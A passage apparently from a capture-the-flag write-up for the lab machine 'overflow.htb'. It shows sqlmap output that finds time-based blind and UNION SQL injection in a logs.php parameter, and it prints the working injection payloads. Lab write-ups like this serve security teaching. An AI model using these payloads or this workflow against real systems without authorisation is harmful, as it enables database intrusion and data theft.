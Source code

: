 Running sqlmap on it it identifies the injection point rather quickly.

```
$ sqlmap -r logs.req
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:11:14 /2021-10-24/

[00:11:14] [INFO] parsing HTTP request from 'logs.req'
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
...[snip]...
[00:11:29] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[00:11:42] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[00:11:42] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[00:11:43] [INFO] target URL appears to be UNION injectable with 3 columns
[00:11:43] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://overflow.htb:80/home/logs.php?name=') AND (SELECT 9796 FROM (SELECT(SLEEP(5)))hcfK) AND ('UNju'='UNju

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: http://overflow.htb:80/home/logs.php?name=') UNION ALL SELECT NULL,NULL,CONCAT(0x71766a7671,0x524363496a5379716c4e5764595076635657616a4f6c6f7348714279794d6c77654c774d4c536e4e,0x7171627171)-- -
---
[00:11:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
...[snip]...
```
